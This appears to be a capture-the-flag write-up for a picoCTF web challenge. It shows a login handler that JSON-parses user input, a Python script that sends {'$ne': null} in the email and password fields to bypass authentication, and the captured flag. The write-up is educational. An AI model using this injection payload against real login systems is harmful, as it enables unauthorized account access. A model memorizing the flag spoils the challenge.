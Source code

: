 ```yaml
---
ai_date: '2025-04-27 05:29:57'
ai_summary: MongoDB injection vulnerability exploited using JSON parse to bypass filter
ai_tags:
- json
- mongodb
- injection
created: 2024-11-16T19:49
updated: 2024-11-16T19:51
---
```


Simple mongodb injection.

```js
const user = await User.findOne({
    email:
    email.startsWith("{") && email.endsWith("}")
        ? JSON.parse(email)
        : email,
    password:
    password.startsWith("{") && password.endsWith("}")
        ? JSON.parse(password)
        : password,
});
```

Since we can provide it with an object, we can just use [$ne - MongoDB Manual v8.0](https://www.mongodb.com/docs/manual/reference/operator/query/ne/#mongodb-query-op.-ne).

```js
{ field: { $ne: value } }
```

```python
import base64
import requests

print(base64.b64decode(requests.post("http://atlas.picoctf.net:63914/login", json={"email": '{"$ne": null}', "password": '{"$ne": null}'}).json()['token']))
```

```flag
picoCTF{jBhD2y7XoNzPv_1YxS9Ew5qL0uI6pasql_injection_784e40e8}
```